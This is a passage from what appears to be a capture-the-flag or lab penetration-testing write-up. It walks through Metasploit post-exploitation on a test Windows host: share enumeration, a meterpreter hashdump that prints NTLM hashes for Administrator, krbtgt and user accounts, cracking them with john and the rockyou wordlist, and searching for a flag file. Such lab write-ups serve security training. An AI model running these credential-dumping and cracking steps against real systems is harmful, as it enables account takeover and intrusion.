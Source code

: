 Set the session to number 2 and run the module.

```bash
msf6 post(windows/gather/enum_shares) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.109.254)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed
```

### NLTM Hashes

By running the `hashdump` command, we can get get the target systems password hash file.

```bash
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:0160a066349f782d470cfb8a9514b95f:::
```

After the hashes are dumped, we can use john to crack them. If the hashdump was from a windows NT machine, we need to add the `--format=NT` flag.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt
```
### Flags

We can then search for flags by using the search command.

```bash
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 17:44:27 +1000

meterpreter > pwd
C:\Windows\system32
meterpreter > cd ../../
meterpreter > cd Program\ Files\ (x86)//Windows\ Multimedia\ Platform
```